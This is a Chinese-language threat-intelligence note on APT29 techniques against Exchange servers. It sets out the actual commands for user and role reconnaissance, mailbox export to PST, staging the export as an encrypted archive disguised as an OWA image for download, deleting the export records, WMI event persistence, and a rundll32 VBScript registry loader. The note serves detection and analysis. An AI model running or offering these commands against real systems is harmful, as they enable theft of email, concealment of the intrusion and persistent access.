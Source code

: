 # APT29

## 特征

1. 该组织在Exchange服务器内网侦察时会使用PowerShell命令获取Exchange服务器的用户列表和当前角色.

```powershell
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-ManagementRoleAssignment -GetEffectiveUsers | select Name,Role,EffectiveUserName,AssignmentMethod,IsValid | ConvertTo-Csv -NoTypeInformation | % {$_ -replace '`n','_'} | Out-File C:\temp\1.xml"
```

使用PowerShell命令检查Web服务虚拟目录信息.

```powershell
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-WebServicesVirtualDirectory | Format-List"
```

在窃取电子邮件的文件时也会使用PowerShell命令.

```powershell
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "New-MailboxExportRequest -Mailbox foobar@组织 -ContentFilter {(Received -ge '03/01/2020')} -FilePath '\\<邮箱服务器>\c$\temp\b.pst'"
```

然后该组织会在受害者的OWA服务器上使用7Z压缩程序将文件压缩成加密的压缩包，并通过HTTP请求进行访问，执行完成后，通过访问请求：/owa/auth/Redir.png，即可下载泄露数据.

```powershell
C:\Windows\system32\cmd.exe /C .\7z.exe a -mx9 -r0 -p[密码]  "C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\Redir.png" C:\Temp\b.pst
```

在窃取电子邮件结束后，该组织会使用PowerShell命令清除导出邮件记录.

```powershell
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-MailboxExportRequest -Mailbox user@组织 | Remove-MailboxExportRequest -Confirm:$False"
```

2. 在持久化时使用WMI事件进行持久化.

```WMI
SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 180 AND TargetInstance.SystemUpTime < 480
```

3. 利用MSHTA持久化

```cmd
rundll32.exe vbscript:”..\mshtml,RunHTMLApplication “+Execute(CreateObject(“WScript.Shell”).RegRead(“HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\sibot\”))(window.close)
//先读取注册表再创建对象，并使用rundll32.exe运行
```
